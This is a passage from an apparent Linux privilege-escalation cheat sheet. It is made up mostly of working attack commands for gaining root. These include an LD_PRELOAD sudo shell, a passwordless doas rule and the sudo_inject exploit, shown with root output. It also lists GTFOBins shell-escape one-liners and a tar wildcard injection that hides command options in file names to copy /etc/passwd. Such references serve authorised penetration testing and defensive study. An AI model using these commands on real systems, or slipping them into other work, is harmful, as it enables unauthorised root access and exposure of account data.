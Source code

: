 Execute any binary with the LD_PRELOAD to spawn a shell : `sudo LD_PRELOAD=/tmp/shell.so find`

### Doas

There are some alternatives to the `sudo` binary such as `doas` for OpenBSD, remember to check its configuration at `/etc/doas.conf`

```bash
permit nopass demo as root cmd vim
```

### sudo_inject

Using [https://github.com/nongiach/sudo_inject](https://github.com/nongiach/sudo_inject)

```powershell
$ sudo whatever
[sudo] password for user:    
# Press <ctrl>+c since you don't have the password. 
# This creates an invalid sudo tokens.
$ sh exploit.sh
.... wait 1 seconds
$ sudo -i # no password required :)
# id
uid=0(root) gid=0(root) groups=0(root)
```

Slides of the presentation : [https://github.com/nongiach/sudo_inject/blob/master/slides_breizh_2019.pdf](https://github.com/nongiach/sudo_inject/blob/master/slides_breizh_2019.pdf)

## GTFOBins

[GTFOBins](https://gtfobins.github.io) is a curated list of Unix binaries that can be exploited by an attacker to bypass local security restrictions.

The project collects legitimate functions of Unix binaries that can be abused to break out restricted shells, escalate or maintain elevated privileges, transfer files, spawn bind and reverse shells, and facilitate the other post-exploitation tasks.

> gdb -nx -ex '!sh' -ex quit    
> sudo mysql -e '\! /bin/sh'    
> strace -o /dev/null /bin/sh    
> sudo awk 'BEGIN {system("/bin/sh")}'


## Wildcard

By using tar with –checkpoint-action options, a specified action can be used after a checkpoint. This action could be a malicious shell script that could be used for executing arbitrary commands under the user who starts tar. “Tricking” root to use the specific options is quite easy, and that's where the wildcard comes in handy.

```powershell
# create file for exploitation
touch -- "--checkpoint=1"
touch -- "--checkpoint-action=exec=sh shell.sh"
echo "#\!/bin/bash\ncat /etc/passwd > /tmp/flag\nchmod 777 /tmp/flag" > shell.sh

# vulnerable script
tar cf archive.tar *
```
